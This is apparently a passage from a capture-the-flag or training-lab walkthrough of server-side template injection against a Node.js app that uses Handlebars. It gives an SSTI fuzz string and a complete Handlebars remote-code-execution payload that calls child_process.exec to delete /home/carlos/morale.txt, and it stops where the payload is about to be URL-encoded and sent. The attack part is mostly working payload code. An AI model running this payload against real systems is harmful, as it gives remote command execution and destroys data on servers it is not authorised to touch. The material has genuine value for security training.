

First, let's recognize the templating framework:


We are going to fuzz this field with some SSTI characters, to provoke an error and possibly leak the templating framework:
`${{<%[%'"}}%\`



We are going to look for some exploits for `handlebars`, which seems to be the `nodeJS` module in charge of the templating framework:
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

This is an RCE which basically explotes another vulnerbility in a constructor inside the templating framework, allowing us to create an execution context inside the templating framework.

Let's URL encode this script and send it as the request parameter:


